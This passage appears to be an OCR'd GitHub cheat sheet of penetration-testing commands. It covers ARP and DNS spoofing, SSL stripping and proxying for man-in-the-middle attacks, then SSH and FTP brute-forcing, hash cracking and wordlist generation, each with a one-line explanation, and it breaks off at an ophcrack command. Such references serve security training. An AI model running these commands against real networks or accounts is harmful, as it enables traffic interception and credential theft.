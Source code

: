 ```cd```

```arpspoof -i eth0 -t victim_ip gateway_ip```
_Spoofs ARP responses to 'victim_ip', redirecting traffic through attacker's 'eth0' to 'gateway_ip'._

```arpspoof -i eth0 -t gateway_ip victim_ip```
_Spoofs ARP responses to 'gateway_ip', completing the MITM by redirecting traffic from 'victim_ip'._

```bettercap -iface eth0```
_Launches Bettercap on 'eth0' for MITM, supports ARP spoofing, sniffing, and more._

```bettercap -caplet http-ui```
_Runs Bettercap's HTTP UI caplet, provides a web interface for managing MITM attacks._

```ettercap -T -i eth0 -M arp```
_Performs ARP poisoning on 'eth0' with text interface, intercepts traffic between hosts._

```dnsspoof -i eth0```
_Spoofs DNS responses on 'eth0', redirects victims to malicious IPs during MITM._

```sslstrip```
_Strips HTTPS to HTTP in intercepted traffic, captures sensitive data from downgraded connections._

```mitmproxy -i eth0```
_Runs an interactive proxy on 'eth0', allows real-time inspection and modification of HTTP/HTTPS traffic._

```tcpdump -i eth0 arp```
_Captures ARP packets on 'eth0', monitors ARP activity during MITM setup or detection._

## Password Attacks

```hydra -l user -P passlist.txt ssh://host```
_Brute-forces SSH login on 'host' with username 'user' and password list 'passlist.txt', tests credential strength._

```hydra -L userlist.txt -p pass ftp://host```
_Brute-forces FTP login on 'host' with user list 'userlist.txt' and password 'pass', targets file servers._

```john hash_file.txt```
_Cracks password hashes in 'hash_file.txt' using default settings, versatile for various hash types._

```john --wordlist=wordlist.txt hash_file.txt```
_Cracks hashes in 'hash_file.txt' with 'wordlist.txt', enhances efficiency with dictionary attacks._

```hashcat -m 0 -a 0 hash_file.txt wordlist.txt```
_Cracks MD5 hashes (-m 0) in 'hash_file.txt' with 'wordlist.txt' using straight attack (-a 0), GPU-accelerated._

```hashcat -m 1800 -a 3 hash_file.txt ?d?d?d?d```
_Brute-forces SHA-512 hashes (-m 1800) with a 4-digit mask (?d?d?d?d), tests numeric passwords._

```crunch 4 4 0123456789 -o wordlist.txt```
_Generates a 4-digit numeric wordlist (0000-9999) saved to 'wordlist.txt', creates custom lists for cracking._

```cewl http://target.com -w wordlist.txt```
_Crawls 'http://target.com' to generate a wordlist saved to 'wordlist.txt', customizes dictionaries from sites._

```ophcrack -t table -f hash_file.txt```
```